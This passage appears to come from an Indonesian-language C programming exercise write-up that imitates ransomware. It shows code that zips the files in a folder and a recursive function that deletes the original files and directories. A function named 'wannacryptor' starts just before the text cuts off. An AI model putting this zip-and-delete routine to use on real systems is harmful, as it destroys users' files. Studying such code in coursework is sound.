     if ((dir = opendir(folderpath)) != NULL) {
        while ((entry = readdir(dir)) != NULL) {
            if (entry->d_type == DT_REG || entry->d_type == DT_DIR) {
                if (strcmp(entry->d_name, ".") == 0 || strcmp(entry->d_name, "..") == 0)
                    continue;

                snprintf(path, sizeof(path), "%s/%s", folderpath, entry->d_name);

                struct stat st;
                stat(path, &st);
                if (S_ISREG(st.st_mode)) {
                    zip_source_t *source = zip_source_file(zip, path, 0, 0);
                    if (source)
                        zip_file_add(zip, entry->d_name, source, ZIP_FL_OVERWRITE);
                }
            }
        }
        closedir(dir);
    }

    zip_close(zip);
    return strdup(zipname);
     }
</pre>
5. Menghapus file original yang sebelumnya telah dirubah menjadi ZIP
<pre>
        void delete_folder(const char *path) {
    DIR *d = opendir(path);
    size_t path_len = strlen(path);
    struct dirent *p;
    if (!d) return;

    while ((p = readdir(d))) {
        if (strcmp(p->d_name, ".") == 0 || strcmp(p->d_name, "..") == 0)
            continue;

        char full_path[1024];
        snprintf(full_path, sizeof(full_path), "%s/%s", path, p->d_name);
        struct stat st;
        if (!stat(full_path, &st)) {
            if (S_ISDIR(st.st_mode)) {
                delete_folder(full_path);
            } else {
                remove(full_path);
            }
        }
    }
    closedir(d);
    rmdir(path);
     }
</pre>
6. Function wannacryptor
<pre>
        void wannacryptor() {
    char cwd[1024];
    getcwd(cwd, sizeof(cwd));
